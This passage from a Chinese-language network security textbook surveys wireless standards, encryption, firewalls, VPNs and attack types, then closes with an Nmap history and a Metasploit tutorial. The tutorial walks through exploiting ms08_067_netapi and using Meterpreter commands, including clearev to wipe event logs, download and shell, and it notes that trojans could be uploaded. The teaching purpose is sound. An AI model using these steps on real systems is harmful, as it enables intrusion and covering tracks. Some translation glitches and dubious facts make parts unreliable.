`WLANs` 上使用的四种常用技术包括跳频扩频、直接序列扩频、正交频分复用和矢量正交频分复用。虽然前两个是原始 `802.11` 标准的一部分，但后两种是先进得多的调制形式。最后一种由 `Cisco` 开发。

#### 蜂窝网络
蜂窝网络中用于调制的五种技术包括频分多址（`FDMA`）、时分多址（`TDMA`）、码分多址（`CDMA`）、正交频分多址（`OFDMA`）和全球移动通信（`GSM`）。虽然 `TDMA` 是 `FDMA` 的改进，但 `CDMA` 通过在频谱上扩展数据允许使用所有频率。`OFDMA` 改进了 `FDMA`，通常用于 `4G` 蜂窝设备。最后，`GSM` 提供了带有 `SIM 卡` 的手机，手机卡必须留在手机中才能工作。使用秘密加密来防止手机克隆。

#### 卫星
卫星不仅可以为用户提供电视节目服务，还可以通过微波技术提供互联网。虽然与其他类型相比它们较慢，但这种技术在无法实施其他解决方案的偏远地区非常有用。

## WLAN 结构

在查看 `WLAN` 标准之前，了解一下 `WLAN` 组件和整体结构是一个好主意。

### 接入点 (Access Point)
这种无线发射器接收器与有线部分连接，是有线设备接入网络的接受点。`Routers` 是常见的例子。如今，“瘦”接入点类似于天线，可以连接到称为 `controllers` 的中央系统。

### SSID
此名称或值用于区分一个 `WLAN` 和其他 `WLANs`。它可以被接入点隐藏或广播。隐藏 `SSID` 并不是一种有效的安全策略，因为它仅仅移除了信标帧。由于其他帧也存在，无线网络的存在可以被“嗅探”发现。

### 基础模式与自组模式 (Ad Hoc)
由于 `WLAN` 必须包含一个 `AP`，站点和设备之间的所有通信都必须通过 `AP` 路由，这被称为基础模式（`Infrastructure mode`）。自组模式（`Ad Hoc mode`）是站点和设备无需 `AP` 即可相互通信的模式。

## WLAN 标准

### 802.11 标准
`802.11` 标准已经存在一段时间了。该标准已经进行了多次修订，但它们有时被视为独立的标准。包括 `802.11a`、`802.11b`、`802.11c`、`802.11f`、`802.11g` 和 `802.11n`。

### 蓝牙
这种无线技术可用于在设备和外围设备之间建立局域网。`Bluetooth 3.0` 和 4.0 的速度为 `24 Mbps`。存在未经授权的消息和访问的蓝牙攻击（`Bluejacking`）和蓝窃（`bluesnarfing`）。

### 红外
这种短距离无线技术使用光而非无线波，并要求两个设备都具有红外端口。它可以在 `5 米` 的范围内运行，速度高达 `4 Mbps`。`IrTran-P` 协议可能会导致安全问题，因为它会自动接受文件。

### 近场通信 (NFC)
当两个通信设备彼此靠近 `2 英寸` 时，可以用于支付或读取电子标签。这两个设备中的一个通常是移动设备。

### WLAN 安全
为了安全地实施 `802.11` 技术，你必须了解随时间发展和使用的安全措施。开放系统（`Open System`）和共享密钥认证（`Shared Key Authentication`）是曾使用的旧认证方法，而无线网络的三种安全措施包括 `WEP`、`WPA` 和 `WPA2`。与 `WPA` 中使用的 `TKIP` 协议相比，`WPA2` 被认为安全得多，因为它基于 `CCMP` 协议。

`MAC 过滤`


这种安全措施包括添加允许访问 `AP` 的 `MAC Addresses`。尽管如此，`MAC addresses` 可能会被伪造，这就是为什么它并不是一种很好的安全措施。尽管如此，你可以通过黑名单或拒绝特定设备访问 `AP`。

## 用于维护通信安全的加密技术

根据你想要使用的通信级别，有两种保护方式可用。首先，`link encryption`（链路加密）对作为数据传输一部分发送的所有信息进行反复加密和解密，而 `end-to-end encryption`（端到端加密）只加密发送的内部信息，而不加密路由所需的包头信息。

### 链路加密

如前所述，在这种类型的数据传输中，所有数据都是加密的，链路控制信息除外。当数据向目标主机移动时，路径上的每个路由器会在特定点解密信息以获取目的头信息，然后再次对信息进行加密。

作为一个在互联网上发送数据的人（无论是通过电子邮件，还是银行机构与其客户之间的通信），更倾向于 `link encryption`。这是因为所有数据都经过加密，提供了隐私性和安全性。缺点是，数据经过的所有设备都必须接收密钥，并在需要时更换密钥。此外，每个路由点必须对数据包进行解密，才能继续沿路径移动。

### 端到端加密

在这种加密类型中，数据的加密仅限于包头和地址以外的所有内容。这使得它更容易受到黑客的攻击，他们可以通过嗅探或窃听获取更多关于包的信息。尽管如此，`end-to-end encryption` 允许用户控制哪些内容加密，哪些不。此外，由于每个路由点不再需要反复的解密或加密，路由设备的性能大大提高。`IPSec` 就是 `end-to-end encryption` 的示例之一。

## 活动安全的网络组件

网络组件必须在保护传输中数据的同时进行安全，这是一个重要的原因。这是因为如果被破坏，网络中的信息可以被攻击者轻易访问。换句话说，两者都关重要。

### 硬件

那么，我们指的是网络组件？它可以分为五个部分：硬件、传输介质、终端安全之外的网络访问控制设备、以及我们接下来将查看的分发网络。

#### 调制解调器

`modem` 是调制解调器（调制/demodulator）的合词，它通过模拟电话线让远程用户访问网络。当用户向 `modem` 发送模拟信号时，它会被转换为数字信号并通常发送到服务器。因此，当服务器对信号响应时，数字信号会被还原为模拟信号发送回远程用户。

虽然这对于那些出差旅行的人来说可能非常有用，但当安全人员忙于保护互联网网关时，这种访问方式可能会给攻击者提供切入点。

虽然不让 `modems` 接入网络是防止威胁的常用方法，但也会使用 `telephony firewalls`（电话防火墙），它们会监控所有入和出的模拟通话。因此，某些号码可以用于拨打调制解调器电话进入组织的电话交换机。

尽管如此，上述的 `telephony firewall` 类似于 `IP firewall`，它位于 `PSTN`（公共大众电话网）和组织的电话网络之间。

#### 网桥和交换机

局域网的大小一直在增大，这不仅减少了带宽，而且达到了局域网无法进一步扩展的程度。

增加电缆长度和局域网的大小只会增加衰减。是否有方法在不重新配置两个网络的情况下连接两个局域网？

这种问题的常见解决方案被称为 `Layer 2 device`（二层设备），即 `bridge`（网桥），它负责根据 `MAC Addresses` 过滤网段之间的流量。此外，它们在放大信号的同时也减少了流经网络每个部分的不必要流量。

遗憾的是，尽管 `bridges` 高效，但它们不能防止网络任何网段的人截获流量。因此，必须以 `link-layer encryption`（链路层加密）甚至访问列表的形式认真对待安全。这对于无线网桥尤其是如此。

至于 `switches`（交换机），它们提供了与 `bridges` 相同的优点，但价格昂贵。简单来说，它们是局域网连接的多端口设备，并带有增加网络带宽的额外好处。尽管如此，`bridges` 和 `switches` 都可以将广播转发到网络中的所有网段。

#### 路由器

`routers` 的主要功能是根据接收包中添加的 `IP address` 将包转发到另一个网络。由于 `routers` 通过 `routing table` 维护其所在网络的视图，因此会决定网络上的哪个设备应该接收此数据包。这通常被称为“下一跳”。当然，如果目标 `IP address` 不在其网络内，它会将包转发到另一个更离目的地的路由器。使用 `router` 的优点之一是它可以连接不同类型的网络，通过你可以无问题地发送数据包。

#### 无线接入点

根据定义，无线接入点让无线设备访问网络。由于区域被划分为单元，如果无线接入点的强度调整不当，该区域可能会扩展到安全区域之外。这里使用的一些策略包括屏蔽、噪声传输以及放置接入点本身以防止攻击者访问网络。

### 传输介质

网络设计中使用的电缆的重要性不言而。为该网络选择正确的电缆类型可以决定网络能否成功执行其功能。在选择电缆时必须考虑的方面包括设备之间的距离、数据敏感性和环境。

至于可选的电缆类型，它们包括 `shielded and unshielded twisted pair`（屏蔽和非屏蔽双绞）、`coaxial cable`（同电缆）、`patch panel`（配线架）和三种 `fiber optic cables`（光纤）。

#### 有线

如前所述，你可以选择的电缆涉及 `twisted pair`（双绞）和 `coaxial cables`（同电缆），其中铜线扭绞在一起以防止电磁干扰和串扰。由于这种类型最便宜，在安装过程中很容易弯曲。因此，为了解决这个问题，通常使用 `shielded twisted pair cable`（屏蔽双绞线），它在通常的保护护套之外增加了一个额外的屏蔽层来保护信号。当然，由于它更贵且安装时更难弯曲，除非信号屏蔽是首要任务，否则这可能是一个劣势。

至于 `coaxial cables`，它们保护一个相当大的导体，然后由接地的线编织覆盖，并由非导缘层隔离。此外，还使用保护护套覆盖整根电缆。由于 `coaxial cable` 比 `twisted pair cables` 大，它在支持更距离传输之外，通常支持更大的带宽。由于优质保护护套阻止了干扰，入侵者无法监控信号。尽管如此，考虑到价格昂贵，它仅用于特殊应用。

#### 无线

无线传输有两种类型：`radio waves`（无线电波）和 `microwaves`（微波）。我们在前一章中看过的某些用于无线传输的应用包括 `Bluetooth`（蓝牙）、`Infrared`（红外）、`Wi-Fi` 以及使用卫星的无线传输。

#### 光纤


即使光纤电仍在被使用，但在使用铜电缆时是使用光而不是改变电压。使用 `LED` 或激光来引导数据，通过其开启和关闭来发送 0 和 1。电缆另一端的接收器会解释这些比特位并将它们转换回原始信号。

现在，激光波动得越快，光信号色散的可能性就越大。为此，会使用类似于中继器的光增强器。光纤电有三种类型，即单模、多模和塑料光光纤（`POF`）。

# 网络访问控制设备

根据定义，网络访问控制设备通常会检查想要访问组织网络的设备。无论这些设备是否已经带有恶意软件、是否缺少安全更新或是否存在许多其他问题；这些问题都可能影响整个网络，并且必须实时处理。当然，授予设备访问网络的接受安全标准必须基于组织的安全策略。网络访问控制设备（`NAC`）倾向于作为一种自动检测和响应系统，被放置以防止网络遭受严重破坏或数据泄露。

### 防火墙

防火墙被定义为控制流量的网络设备，作为互联网与私有网络之间的屏障，用于根据设置的规则过滤流量，并区分组织认为恶意的或授权的流量。

它们不仅能够阻止来自网络外部的请求流量和连接请求，还能保护网络结构和地址方案免受外部威胁的影响。

虽然这些防火墙无法阻止恶意代码，但大多数提供此类保护的公司还提供入侵检测系统（如防病毒扫描器），此外还有详细的日志记录、监控和审计功能。

话虽如此，安全专业人员使用三种防火墙——静态包过滤、电路级网关和防火墙。静态包过滤只检查数据包头提供的信息，而防火墙会查看更多信息以过滤未经授权的流量。电路级网关防火墙基于电路而非这两个实体之间的流量内容，在两个信任伙伴之间建立连接。

### 代理

常用的第四种防火墙包括应用层网关，通常被称为代理。即使它会影响性能，代理也会保护源和目的 IP 地址，以隐藏私有网络的身份。这是通过将数据包从一个网络复制到另一个网络实现的，每个包在通过防火墙时都会经过检查和处理。这些应用层防火墙之所以这样做，是因为它们运行在 OSI 模型的应用层。

### 终端安全

在过去，网络安全依赖于网络边界哨兵，如防火墙、代理、病毒扫描器以及许多 `IDS`、`IPS` 和 `IDP` 解决方案。随着时间的推移，这种方法被弃用了，因为威胁不仅源于外部，也来自网络内部。

正因如此，人们采用了终端安全实践，让每个设备都对其本地安全负责。另一个非常有道理的原因是，任何网络的安全性取决于其最薄弱的环节。换句话说，无论威胁存在于边界、服务器还是客户端，都应该被视为整个网络的威胁。

## 内容分发网络

也被称为内容分发网络（`CDN`），它是位于各个数据中心的服务器系统，目标是为用户提供内容并满足高可用性和性能标准。今天互联网上的许多内容都是 `CDN` 的一部分。其中一些包括可下载对象、流媒体、网络对象和应用程序。

`CDNs` 存在了近二十年，在促进游戏、电子商务、媒体娱乐以及软件下载交付等垂直领域已被证明是成功的。`CDN` 的优秀例子是 `Amazon CloudFront` 和 `Microsoft Azure CDN`。当然，由于这些内容在全球多个数据中心均可用，访问者可以轻松访问。

设计并建立安全的通信通道。数据在静态存储时相对容易保护。当处于传输途中，会有各种威胁和漏洞影响其可用性、机密性和完整性。尽管如此，所有这些安全问题都可以处理，因为通信安全的目的是检测、减轻和纠正传输错误。

为了做到这一点，识别通道的类型是第一步。由于语音、多媒体协作、远程访问、数据通信和虚拟化网络是组织中常用的通道，我们将了解它们如何工作，并查看针对每个通道的应对措施。

# 网络和协议安全机制

由于我们讨论的是传输过程中的数据，`TCP/IP` 协议族是互联网上最常用的。然而，一个已知事实是存在安全缺陷，这就是为什么开发了许多协议、机制和应用程序来继续保护传输的数据。

广义分类为安全通信和身份验证协议，我们将查看保护传输数据最常见的协议。

## 安全通信协议

某些协议的开发是为了保护特定的应用程序通信通道。尽管有几种协议与 `TCP/IP` 协议族结合使用，但其中一些包括互联网协议简单密钥管理（`SKIP`）、软件 IP 加密（`swIPe`）、安全远程过程调用（`S-RPC`）、安全套接层（`SSL`）、传输层安全（`TLS`）和安全电子交易（`SET`）。

`SKIP` 和 `swIPe` 都是第三层协议，而 `SSL` 和 `TLS` 保护网络浏览器和服务器之间的通信。对于 `S-RPC`，它防止在远程系统上执行未经授权的代码。最后，`SET` 设计用于确保互联网安全交易。

### 身份验证协议

通常情况下，一旦服务器或网络与系统之间建立了连接，身份验证就是建立远程用户身份的下一步。这些登录凭据如何交换以及是否加密取决于具体的协议。

常用的协议有三种：挑战响应握手身份验证协议（`CHAP`）、密码验证协议（`PAP`）和可扩展身份验证协议（`EAP`）。虽然 `CHAP` 加密了用户名和密码，但 `PAP` 没有。另一方面，`EAP` 作为框架而非身份验证协议，因为它提供了自定义的安全解决方案，如智能卡、令牌和生物识别。

从这三种协议中出现了新的安全协议，例如受保护的可扩展身份验证协议（`PEAP`）和轻量级可扩展身份验证协议（`LEAP`）。在 `EAP`、`PEAP` 和 `LEAP` 之间，首选 `PEAP`。

语音

即使语音通信不直接属于 IT 安全，但像 `VoIP` 这样通过网络上发送数据包的技术容易被拦截，因此有必要确保实施相关的机制以获得最佳的安全性和完整性。


当然，甚至还有 `PBX`、`PSTN` 和 `POTS` 系统也极易被窃听、拦截和监听，但可以通过保护物理布线本身来解决。至于你组织网络外的布线，则必须由你租赁线路的电话公司来负责。

### VoIP

这项技术将音频转换为通过 `TCP/IP` 连接发送的数据包。由于其作为电话解决方案的成本低廉，它已经变得流行。尽管如此，仍有多种方式可以对 `VoIP` 进行攻击。伪造主叫 ID、通过中间人攻击伪造通话管理器、`OS` 或 `DoS` 攻击，甚至是 `802.1X` 身份验证伪造都是非常可能的。在此情况下，如果数据包没有加密，人们就可以偷听。

## 多媒体协作

组织中另一种常用的通信通道涉及多媒体协作，包括两种类型：远程会议和即时消息。

### 远程会议

根据定义，这种类型的通信通道允许人们通过互联网进行虚拟会议。在大多数情况下，主机计算机上会安装浏览器扩展，同时允许桌面共享和远程控制。

在使用此类软件时，身份验证和加密是必不可少的。让安全专业人员研究这一点至关重要，而主持这些会议的人员应该接受如何安全使用这些应用程序的培训。

### 即时消息

毫无疑问，即时消息让通信变得简单得多，尤其是实时通信。然而，由于这些应用程序使用点对点、代理或面向服务器的系统，也伴随着安全风险。换句话之，根据所使用的应用程序，必须授予某些协议权限。例如诸如互联网中继聊天（`IRC`）和可扩展消息和存在性协议（`XMPP`）等协议。

至于威胁，不仅用户身份可以被伪造，用户还可以执行可能导致其系统不安全的恶意脚本。此外，由于提供了文件传输选项，也极有可能发生系统感染。在某些情况下，其用户可能会成为数据包嗅探甚至社交工程攻击的受害者。即时消息中的垃圾信息是另一种攻击方法，这也是为什么从组织的角度来看它被认为是不安全的。。

## 远程访问

如果你听过“远程办公”这个词，就会知道现在的员工有能力在舒适的家中直接访问组织资源。就像他们坐在办公室里一样。简单来说，赋予某人远程访问涉及远程客户端获取网络访问。

那么，远程办公者是如何连接到网络呢？鉴于有很多远程连接技术，安全专业人员必须考虑这些类型连接带来的安全问题，其中 `Dial-up`、`ISDN`、`DSL`、`Cable` 和 `VPN` 最常见的。

由于拦截和监听在这里非常常见，因此通过加密建立安全的通信通道至关重要。除此之外，只允许某些人员远程访问并对身份验证进行严格规定同样重要。此外，远程工作的人员可能也经常需要帮助。因此，使用之前讨论的身份验证和安全通信协议，甚至使用如 `RADIUS` 和 `TACACS+` 这样的集中式远程认证服务，都是很有用的。

尽管如此，涉及到拨号连接时，`PPP` 是最常用的协议，它取代了 `SLIP`。

### 关于 VPN

虚拟专用网络是一种可能使用不可信的通信网络传输数据的连接，但它受到强大的身份验证协议和加密机制的保护。换句话说，整个协议相互封装，无论是 `LAN`、线路、加密还是身份验证协议。`PPTP`、`L2TP` 和 `IPSec` 是已知的提供加密、身份验证或两者兼者的协议。

### VPN 屏幕截取

提供远程访问时出现的一个安全风险涉及屏幕截取。根据定义，这是攻击者抓取屏幕并访问上面敏感信息的能力。对于这种屏幕截取加密，必须实施相应的解决方案。

### 虚拟应用程序/桌面

虚拟应用程序或桌面是另一种日益流行的通信通道，它允许远程用户执行命令，就像他们坐在远程访问的终端上一样。由于安全在这里也起着重要作用，安全专业人员必须在主机计算机和虚拟机上实施相同的安全措施。

## 虚拟化网络

虚拟化网络通过将硬件和软件网络资源结合成提供管理功能的单一软件实体来模拟传统网络。这些实现不仅加快了恢复速度，还提高了安全性。`Virtual SANs`、`SDNs`、客户操作系统和端口隔离是一些虚拟化网络类型。

### 虚拟 SAN

虚拟存储区域网络不仅允许存储池化，还提供自动即时分配虚拟机存储的能力。它被认为是软件定义存储的方法，数据可用性由软件而非硬件决定。因此，可以制定策略让软件来决定数据应该放在哪里。与仅限硬件的相比，这反过来支持了数据的可用性和保护。

### SDN

软件定义网络是一种通过策略驱动的工作流自动化降低 IT 成本的方法。它不仅将网络控制面与转发面分离，还将网络流量管理为三个部分：原始数据、数据传输和数据目的。`SDN` 由三个架构层组成，如基础设施层、控制层和应用层。由于这些层的存在，硬件不再直接引导流量。

### 客户操作系统和端口隔离

如果一个组织决定实施虚拟化网络，可能需要访问客户操作系统。在这种情况下，配置私有 `LAN` 可能有所帮助，其中创建的第一个为主 `LAN`。你也可以创建其他网络，它们被称为次级 `LAN`。次级 `LAN` 可以配置为三种模式：混杂模式、社区模式或隔离模式。`PVLAN` 内的节点将根据其所处模式施加通信限制。尽管如此，使用 `PVLAN` 的活动被称为端口隔离。

## 预防或缓解网络攻击

如果你希望处理网络攻击，第一步是了解常见的类型以及如何处理它们。如果能从源上防止此类攻击则更好。尽管说布线被认为安全得多，但它仍然有一系列问题，并可能影响可用性。

### 布线

噪声、衰减和串扰是影响边界网络的常见问题。虽然屏蔽布线可以保护网络免受噪声影响，但遵循衰减的长度建议（无论是同轴、双绞还是光纤缆）同样有效。串扰是影响双绞电缆的问题，可以通过正确扭绞电缆来解决。尽管如此，监听可能发生在边界介质，但更容易解决。由于光纤使用光而不是电压作为信号，这可以显著增加监听的难度。但真正能提高安全性的是确保这些电缆的物理安全。


## 网络组件攻击

网络组件攻击之所以发生，是因为它们被多个组织共享。对于安全专业人员来说，理解这些攻击中的每一个至关重要。

一些最常见的攻击包括非盲欺骗（Non-Blind Spoofing）、盲欺骗（Blind Spoofing）、中间人攻击、MAC 洪水攻击（MAC Flooding Attack）、`802.1Q` 和交换机链路协议 (`ISL`) 标记攻击、双封装 `802.1Q`/嵌套 VLAN 攻击以及 ARP 攻击。

### ICMP 攻击

我们之前学习过，`ICMP` 是 `TCP/IP` 协议族网络层中使用的一种协议。它被路由器和其他网络设备使用，功能是发送有关服务、主机或路由器不可用的错误消息或操作信息。攻击者通常使用使用该协议的诊断工具，如 `ping` 和 `traceroute`。ICMP 攻击的常见类型包括死亡之抱（Ping of Death）、蓝精灵攻击（Smurf）、碎鼠攻击（Fraggle）、`ICMP` 重定向（ICMP Redirect）、Ping 扫描（Ping Scanning）和跟踪路由利用（Traceroute Exploitation）。

虽然其中一些攻击是在寻找与数据包和 IP 地址相关的信息，但另一些则使用 `ICMP` 协议来淹没系统。其中，`DoS` 和 `DDoS` 攻击因其造成的混乱而闻名世。

处理此类攻击的一种明智措施是阻止 `ICMP` 的协议号（即 `1`）。某些防火墙还允许你阻止特定类型的 `ICMP` 消息。

### DNS 攻击

`DNS` 在网络中起着重要作用，负责将 IP 地址解析为计算机和域名。如果 `DNS` 服务器成为 `DoS` 或 `DDoS` 攻击的目标，会导致大量的混乱。在出现问题时，拥有多个 `DNS` 服务器会很有帮助。一些常见的 DNS 攻击包括 DNS 缓存污染（DNS Cache Poisoning）、`DoS`、`DDoS`、URL 隐藏、域名抢夺（Domain Grabbing）和网络域名抢注（Cybersquatting）。

无论是通过重定向网站流量来收集信息，还是让网络停滞，你的 `DNS` 服务器都是此类攻击的目标。在域名抢夺的情况下，真的取决于管理层是否在任何人之前购买与名称相关的网站。

## 电子邮件攻击

由于电子邮件是我们每天都在使用的常用工具，它已成为首选的攻击来源。为了应对这些攻击，这实际上源于用户不佳的安全实践。一些常见的电子邮件攻击包括电子邮件欺骗（Email Spoofing）、钓鱼（Phishing）、鱼叉式钓鱼（Spear Phishing）、鲸钓鱼攻击（Whaling）和垃圾邮件（Spam）。

涉及到欺骗和钓鱼时，目标是获取用户名和密码。在鲸钓鱼攻击的情况下，风险更高，因为目标是重要人物。垃圾邮件虽然很烦人，但仍然应该防范，因为现在向人们发送此类邮件是非法的。

## 无线攻击

鉴于发现某人何时捕获无线电波形式发送的数据包非常，防止无线攻击很难解决。无线攻击有两种常见类型，即无线场漫游（wardriving）和无线标记涂鸦（warchalking）。

这两者都涉及寻找无线网络上的漏洞，这些漏洞通常是接继发生的。仅仅因为某人无法成为网络的无线客户端，也不会阻止他们寻找价值信息。

## 远程攻击

这类攻击聚焦于某些远程系统，例如 `VPN` 服务器，或者过去的拨号服务器（但随着安全实践的改进已停止使用）。后者的一个例子是战争拨号（war dialing），创建的软件将拨打大量号码列表，以寻找与调制器相关的号码。如果是电话或传真号码，将记录应答。然而，如果是调制器，则会尝试连接，让网络对攻击者开放。

## 其他攻击

现在，还有最后一类攻击并不一定属于上述任何一类。这些攻击包括 `SYN/ACK` 攻击、会话劫持（session hijacking）、端口扫描（port scanning）、碎片攻击（teardrop）和 IP 地址欺骗。

虽然 `SYN/ACK` 攻击是一种 `DoS` 攻击，但会话劫持攻击试图收集发送到特定系统的所有数据。端口扫描涉及寻找开放端口，然后可以用于攻击。虽然 `teardrop` 是一种数据包碎片攻击，但 IP 地址欺骗涉及想要隐藏踪迹甚至以另一台计算机执行执行的攻击者。

## 第 4 章 – Linux 工具

`Nmap` 最初于 1997 年 9 月在在线杂志 `Phrack Magazine` 上发表，由 Gordon Lyon（笔名 `Fyodor Vaskovich`）创建。

第一个版本没有编号，因为没有计划发布该工具的新版本。鉴于其受欢迎和高需求，发布了新版本（`v1.25` 在仅 4 天后就推出了），并在 1998 年 12 月发布了 `2.00` 版本。

2000 年 4 月，出现了 `2.50` 版本，它包含了 `ACK` 扫描。2000 年 12 月，感谢 Ryan Permeh 和 Andy Lutomirski 的工作，发布了第一个 Windows 版本（`Nmap v2.45Beta16`）。2002 年 8 月，程序代码被重写，从 `C` 语言变为 `C++` 语言，并增加了对 `IPv6` 的支持。2004 年 2 月发布了 `3.50` 版本，包含了数据包跟踪和 `UDP ping`。2005 年夏天，出现了 `Zenmap`、`Ncat` 和 `NSE` 等附加工具。同年 9 月的 `3.90` 版本包含了 `ARP` 扫描和 MAC 地址欺骗。2009 年 3 月 30 日发布了一个特殊版本（`4.85beta5`），用于检测感染了数百万计算机的 Conficker 病毒。2011 年 1 月 28 日发布了 `5.50` 版本，包含了 `ning` 数据包的生成，以及更多的 `NSE` 脚本。2012 年 5 月，推出了支持全 `IPv6` 的 `6.00` 版本。

### 影响

`Nmap` 最初是作为基础网络的扫描器，但每个新版本都增加了更多功能，其社区也日益增长。

`Nmap` 被认为是系统管理员、安全审计员和黑客最重要（也是必备）的工具之一。这是由于可以通过有效（且隐蔽）的方式从网络获取大量信息。

### 趣味

`Nmap` 曾出现在《极杀 Edge》、《13：死亡游戏》、《黑客矩阵重启》、《水晶丛林 4》或《谍云无赦》等电影中。操作系统（以及任何其他软件）都不是完美的，事实上，存在带有长期错误和漏洞的操作系统。这产生了一个大问题，因为攻击者能够定位这些故障并从中获利。

为了测试我们设备中的漏洞，我们将使用 `Metasploit` 程序对我们的系统进行渗透测试`pentest`）。

`Metasploit` 是一个允许你开发、配置和执行针对目标系统的利用程序的框架，以便进行适当渗透测试。

它包含了超过 900 种不同的漏洞，大部分来自 Windows 操作系统，尽管也有针对 `MacOsX` 和 `Unix / Linux` 的。

除了漏洞，它还包含了 2 个利用它们的载荷（payload）、可以在攻击中使用的库以及各种接口。

它用 `Ruby` 编程语言编写，是免费软件。你可以找到 `Linux` 和 `Windows` 的版本。

(1) `Exploit`（利用）：尝试利用系统漏洞来破坏它的软件。
(2) `Payload`（载荷）：允许你利用受攻击计算机的软件。

## B 操作到 SICO

我们将使用 `Msfconsole` 环境，因为它是最完整、常用的，我们可以通过在控制台中输入 `help` 命令查看这些选项。

```
Kali Linux >> Applications >> System Services >> Community >> Metasploit Pro Start
```


首先，我们应该从目标系统中收集信息，这一阶段通常被称为识别阶段，通过这一阶段我们将获得根据发现的结果做出相应决策的必要数据。

由于我们已经学习过更适合此目的的工具（`nmap`），我们将使用该程序来查找主机、其操作系统及其服务。我们可以直接在 Metasploit 中通过 `db_nmap` 命令完成此操作，它的操作与 `nmap` 类似（使用相同的参数）。一旦获取了 IP 地址、服务、端口等信息，我们就可以决定从哪里进行攻击。

如果我们想查看 Metasploit 中可用的漏洞（exploits），将输入选项 `show exploits`。系统将向我们显示所有可以使用的漏洞列表，因此保持更新 Metasploit Framework 变得非常重要，因为每次更新后，可使用的漏洞数量通常会增加。

我们会看到漏洞列表以及简要的描述、排名以及它所攻击的操作系统。

```
msf> show exploits

Exploits
========
Yam
Disclosure Date
Rank
Description
```

也可以使用 `search` 命令来搜索漏洞。该命令也用于查找其他资源。一旦我们选择了想要使用的漏洞，将输入命令 `use [exploit]` 来指示 Metasploit 激活该漏洞。

作为一个示例，我们将使用漏洞 `ms08_067_netapi`，因此我们在漏洞列表中搜索（使用 `search` 命令），发现它的全名是 `windows / smb /ms08_067_netapi`。

我们将输入以下命令：`use windows / smb / ms08_067_netapi`

如果一切顺利（我们正确写了漏洞名称），metasploit 将在控制台上红色显示你正在使用的漏洞，表示你已成功加载它。

完成后，我们将继续使用负载（payload）来利用漏洞。要查看与我们的漏洞兼容的负载列表，我们将使用 `show payloads` 操作。

```
msf exploit ( ms08_067_netapi )> show payloads
```

正如我们看到的，metasploit 告诉我们已准备好使用负载。如果在下方输入 `show options`，将向我们显示可以使用选项：

```
msf exploit ( ms08_067_netapi )> show options
```

### 自动目标

我们看到在这种情况下，所有选项都是必要的（都具有 `Required = yes` 字段），而且大多数它们已经有了默认值，尽管我们可以像接下来看到的，使用 `set [option] [parameters]` 命令根据喜好进行调整。

我们通过命令 `set RHOST [ target ip ]` 和 `set LHOST [our IP]` 来指定目标机器的 IP 以及我们的 IP，正如我们在上面的选项表中看到的。。

在输入相应的 IP 后，我们将使用 `meterpreter` 来利用漏洞。一旦 `meterpreter` 初始化，我们就可以充分利用该漏洞。

### 如何工作的？

Metasploit Framework 采用模块化架构（我们可以在下面看到更详细的内容），这意味着每个漏洞都集成到框架中，使其只需通过 `load` 和配置命令就能与框架交互（从而与负载等其他模块交互）。

### 选项

以下是 `msfconsole` 中可用的一些选项列表，我们可以使用 `-h` 参数查看每个选项的更具体信息

*   **Back**: 下载当前模块。正如示例所示，系统对该特定漏洞并不脆弱；这是我们在更新系统时要实现的主要目标，即尽可能地减少漏洞。
*   **Connect**: 一个小型的 `netcat` 工具，允许 SSL 2、文件发送、代理等。
*   **Edit**: 允许你编辑（默认使用 `Vim 3`）加载的模块。
*   **Help**: 显示命令（如我们在基础示例中所示）
    *   (1) `Netcat`: 用于分析网络的工具，特别是针对 `TCP / IP` 协议，也可以与 `UDP` 工作。它包含许多功能，是网络管理员最看重的诊断和安全工具之一。
    *   (2) `SSL`（安全套接层）：在网络上提供安全通信的协议。
    *   (3) `Vim` 是所有 Linux 系统上都存在的文本编辑器。
*   **Info**: 显示加载模块的大量信息（选项、目标、作者、许可证、引用、限制等）。
*   **Irb**: 显示一个 Ruby 解释器，允许创建脚本。
*   **Jobs**: 显示在后台运行的模块。
*   **Load**: 加载插件。
*   **Unload**: 移除插件。
*   **Route**: 允许你创建套接字。
*   **Search**: 搜索（模块、描述、引用等）。
*   **Sessions**: 允许列出、交互和结束会话（shell、meterpreter、VNC 等）。
*   **Set**: 设置选项（如我们已经看到的）。
*   **Setg**: 配置模块中的通用选项（如 `LHOST` 或 `RHOST`），如果我们要使用多个，则可以节省时间。如果我们还使用 `save` 选项，也将它为其他会话保存。
*   **Show**: 显示 metasploit 的模块/选项/等（如我们之前看到的）。
*   **Use**: 加载模块（如我们已经看到的）。

### Meterpreter

我们将尝试使用 `Meterpreter` 来利用漏洞。

一旦我们激活了漏洞和负载，提示符将从 `msfconsole msf` 变为指示 `meterpreter`。我们将编写 `ps` 命令来查看目标机器上的活动进程——

```
meterpreter> ps
```

这是 Metasploit 能够做的一个简单示例。然而，这个框架非常详尽并具有许多功能，包括创建自己的漏洞和负载、将我们的攻击保存到数据库中、隐藏或对漏洞进行编码……

### Meterpreter 选项

meterpreter 选项列表

*   **Help**: 显示 meterpreter 选项。
*   **Background**: 将当前的 meterpreter 会话发送到后台（返回带有 `msf>` 提示符的 metasploit）。
*   **Cat**: 显示文件内容（类似于 Linux 的 `cat`）。
*   **Cd**: 更改目录（类似于 MsDos 和 Linux 的 `cd`）。
*   **Pwd**: 显示当前目录。
*   **Clearev**: 清除 Windows 系统的应用程序、系统和安全日志。
*   **Download**: 下载目标文件（针对 Windows 时需要双斜杠 `\\`）。
*   **Edit**: 在目标上打开文件（使用 `Vim`）。
*   **Execute**: 在目标上执行命令。
*   **Getuid**: 显示 Meterpreter 使用的用户。
*   **Idletime**: 显示目标机器空闲了多久。
*   **Ipconfig**: 与 Windows 中的选项相同，告诉我们目标的网络配置。
*   **Ls**: 像 Linux 一样，显示当前目录的文件。
*   **Migrate**: 我们切换到另一个进程（如我们之前看到的）。
*   **Ps**: 给我们提供活动进程列表（如我们之前看到的）。
*   **Resource**: 执行写在文本文件中的 meterpreter 命令。

正如我们看到的，我们列出了当前目录（Desktop），显示了文件以及它们的权限、大小、类型、最后修改日期和名称（目录。以及……分别是当前目录和它们的父目录）。

在显示文件后，它按照我们指示的那样进入了后台。

此命令执行文件搜索；注意在 Windows 系统中我们必须放置双斜杠（`\\`）。

*   **Shell**: 在目标上打开终端（如我们之前看到的）。

在这种情况下，我们上传了一个无害的文本文件，但也可以发送诸如病毒或木马之类的恶意程序。

（木马程序是一种能够在计算机上创建后门以给我们提供远程访问的程序。它之所以这样命名，是因为它的行为像荷马的《奥德赛》中的木马一样）


### Meterpreter

Meterpreter 是一种与利用程序协同工作的有效负载，它不会创建新进程，这使其更加有效（且具有隐蔽性）。要实现这一点，使用 DLL 注入 1 stagers 2。

其运行机制如下：

